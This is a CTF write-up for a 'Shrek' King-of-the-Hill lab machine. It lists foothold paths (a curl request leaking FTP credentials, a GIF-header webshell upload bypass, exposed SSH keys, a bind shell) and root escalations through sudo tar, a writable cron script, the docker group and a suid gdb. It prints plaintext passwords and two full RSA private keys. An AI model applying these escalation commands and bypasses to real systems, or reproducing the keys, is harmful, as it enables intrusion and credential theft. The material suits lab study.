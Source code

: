 # Shrek KOTH machine

paths to foothold:

- on port 80, under `/api` there is a custom service that reveals the ftp credentials. post `search=f` to /api/search.php to reveal them. this allows access to ftp, where there is a text file containing creds for user `donkey`
  - `curl -d "search=f" http://10.10.218.158/api/search.php`
  - might return `ftp:EkRYje58bhFpg2uW`
  - message.txt contains `J5rURvCa8DyTg3vR`

these have been consistent over at least two games

- on port 80, `/upload` contains a file upload that checks for gif or png header. uploading a webshell that starts with `GIF87a` will pass the gif check and be placed under `/upload/uploads`. the webshell will execute as `donkey`
- `robots.txt` reveals a text file containing the ssh private key of user `shrek`
- on high port `65432` (possibly random) runs a limited bind shell for user `puss`

paths to root:

- donkey can run tar as root. therefore `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` will escalate
- shrek has a `check.sh` script in his home folder, that appears to be run by root every minute and which he can alter with a rev shell script or similar
- puss is a member of the docker group, and can get a root shell via `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`
- `gdb` has the suid bit set. any user can get root via `./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit`

other things:

- `run-parts` has the suid bit set, but couldnt work out how to escalate it as it doesnt support the options gtfobins suggests. getting it to run a shell script does not preserve privileges
- cms made simple 2.2.8 is running under /cms on port 80. this has rce if the creds can be guessed - the hash in the db was not crackable
- tomcat is on 8080/8009. maybe ghostcat?

## flags

- /root/root.txt
- /home/shrek/flag.txt
- /home/donkey/flag.txt
- /home/puss/flag.txt
- /srv/web/flag.txt

## ssh keys

shrek:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAsKHyvIOqmETYwUvLDAWg4ZXHb/oTgk7A4vkUY1AZC0S6fzNE
JmewL2ZJ6ioyCXhFmvlA7GC9iMJp13L5a6qeRiQEVwp6M5AYYsm/fTWXZuA2Qf4z
8o+cnnD+nswE9iLe5xPl9NvvyLANWNkn6cHkEOfQ1HYFMFP+85rmJ2o1upHkgcUI
ONDAnRigLz2IwJHeZAvllB5cszvmrLmgJWQg2DIvL/2s+J//rSEKyISmGVBxDdRm
T5ogSbSeJ9e+CfHtfOnUShWVaa2xIO49sKtu+s5LAgURtyX0MiB88NfXcUWC7uO0
Z1hd/W/rzlzKhvYlKPZON+J9ViJLNg36HqoLcwIDAQABAoIBABaM5n+Y07vS9lVf
RtIHGe4TAD5UkA8P3OJdaHPxcvEUWjcJJYc9r6mthnxF3NOGrmRFtDs5cpk2MOsX
u646PzC3QnKWXNmeaO6b0T28DNNOhr7QJHOwUA+OX4OIio2eEBUyXiZvueJGT73r
I4Rdg6+A2RF269yqrJ8PRJj9n1RtO4FPLsQ/5d6qxaHp543BMVFqYEWvrsdNU2Jl
VUAB652BcXpBuJALUV0iBsDxbqIKFl5wIsrTNWh+hkUTwo9HroQEVd4svCN+Jr5B
Npr81WG2jbKqOx2kJVFW/yCivmr/f/XokyOLBi4N/5Wqq+JuHD0zSPTtY5K04SUd
63TWQ5kCgYEA32IwfmDwGZBhqs3+QAH7y46ByIOa632DnZnFu2IqKySpTDk6chmh
ONSfc4coKwRq5T0zofHIKLYwO8vVpJq4iQ31r+oe7fAHh08w/mBC3ciCSi6EQdm5
RMxW0i4usAuneJ04rVmWWHepADB0BqYiByWtWFYAY9Kpks/ks9yWHn8CgYEAymxD
q3xvaWFycawJ+I/P5gW8+Wr1L3VrGbBRj1uPhNF0yQcA03ZjyyViDKeT/uBfCCxX
LPoLmoLYGmisl/MGq3T0g0TtrgvkFU6qZ3sjYJ+O/yrT06HYapJLv6Ns/+98uNvi
3VEQodZNII8P6WLk3RPp1NzDVcFDLmD9C40UAQ0CgYBokPgOUKZT8Sgm4mJ/5+3M
LZtHF4PvdEOmBJNw0dTXeUPesHNRcfnsNmulksEU0e6P/IQs7Jc7p30QoKwTb3Gu
hmBZxohP7So5BrLygHEMjI2g2AGFKbv2HokNvhyQwAPXDBG549Pi+bCcrBHEAwSu
v85TKX7pO3WxiauPHlUPVQKBgFmIF0ozKKgIpPDoMiTRnxfTc+kxyK6sFanwFbL9
wXXymuALi+78D1mb+Ek2mbwDC6V2zzwigJ1fwCu2Hpi6sjmF6lxhUWtI8SIHgFFy
4ovrJvlvvO9/R1SjzoM9yolNKPIut6JCJ8QdIFIFVPlad3XdR/CRkIhOieNqnKHO
TYnFAoGAbRrJYVZaJhVzgg7H22UM+sAuL6TR6hDLqD2wA1vnQvGk8qh95Mg9+M/X
6Zmia1R6Wfm2gIGirxK6s+XOpfqKncFmdjEqO+PHr4vaKSONKB0GzLI7ZlOPPU5V
Q2FZnCyRqaHlYUKWwZBt2UYbC46sfCWapormgwo3xA8Ix/jrBBI=
-----END RSA PRIVATE KEY-----
```

puss

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA3rYTsWn7Rc0ShhrLf5SM5lDLQFw6tuAmckGG7q7tsgDxzIBE
IpVkn8Y4XX8ZPnOOrzzw9NYS+jUNb0+3QxpRv576QsOmlkSoSLcxNfOLPKpqsAAJ
uJ7Bl8LhVfh23aSL5z2TYeeTSrPq5rxcWQE/hmq0kF8WChppEXaxhHjB7zhlj8in
XiOUtPxFFe9xgm6UQeSdV8M8SS6dG5EN1NUTf5I1EmzwK+RWzVp52GOlonyDr0gU
FueAvjvi9ZuEg6tcOjgxhFZOjf9HLUW+1e8hW9GfEqTya+nisTfguHoG+GvpXB0C
LqpY91hQtr1J0i29mdLGAJ048/amczjMuJmCNQIDAQABAoIBAElF6nDCh7NNZzzL
8AwHmdvk1RpVvdORJ9ULjhNVZkrcWLGJueEO+c4/bygDuxB7AITTLgu/qvq7HbJz
rb3cGO1MptX0fQiPijZyXzR67mKFRxikyo39XYBK08xvNNxzWLw53BWoFSPM0goc
Ct4VtQrKbKHbRusICW1/eaQ1/shvTnsePTpWJ7MRUNIk7nCMxeq/t7pw7I9ju3mI
gGM+uz2ZJzZOqJx/x0ogQDPJoIEd2Q7Z9twQ7+S4+rKQPz22mW+qYDq11OWVb0Ef
LLRZ+ue5asHZ2HzKWLbEy3WCSPQNVk4cYm4CyvDSvzV9GCukUVTypKaeXNrK4qJ8
TnVY78ECgYEA9drZ5IF0J2qfMgra5/TRpI+aTVO/NXWhxaRmoyh6Af60gfNLnWKp
J+qJFqZuf3Qwtencv3ocSraVeh0r3aM+LDUYD/LSOnUaj1iY2ckCArZ8KOXGH6i7
AdUqQZzqoJuUb3ztg1Nhu2iWs/3ezz6l1yOvCP9m5020RAqX3DSJkskCgYEA5+a9
+948bVjiPYfFSq5qNd647+RhBpvjJW482BhujsHB+qY+VFbqc3bOIWVeXKTmjQ5y
vhbrUL9h1ulCriSsRAK0qQwW4LH6AgFJvFUm4KZf849iG6dLyFE4H4sYgDGZBW44
WJ8lRVkGJCnexI73R1oMizILasg9/5BR50Jdng0CgYEAtUop/ivPQPmIZlhGz2Bh
7pzNxVOJ3ZveLGVsIcfJIAt3g5OqIGYOIhb5+6/CL024VYwbcT5T+mvkkWVNYWPs
hqCoG6qMhvqvGSDVpVJpnyJ9L5Mvo0zCiTlsrXFOOhw/Om6+nWYw3QbkidkcIWoq
1BfGDDZ45PsRgFLnZEOBZrECgYAK5DVsDOX9pL0LcsL7XPG0Ef/RlIJSEyQ579F/
vLYEkmkP4pruzx43yg6oVuB1rXD+kv0knGL06egoddAh6asFjrL5dY3lg7ZgPbs+
0yj+SBIdmFBdSCAxCk9+e8Ps0WeEb8bJsr/HYAT/0c+an7RRb5NDPlh27WysAhU2
rVFESQKBgGIQ4dIwhiaX7KVyG1QleWC8tJw6sMbzr3R1VKrKAV7NHOcBVfms9/bP
FhZrnDGHKkUAWZ6klGaTHcvq8fK6bas5LKkrNo5DPaiQFbD7x5Lyx4PdPupnxi91
k0hrZqy9vjpxtyIj8tfb3ccPeBiRYDwDyiiPmccOBRHJDwD+S89z
-----END RSA PRIVATE KEY-----
```
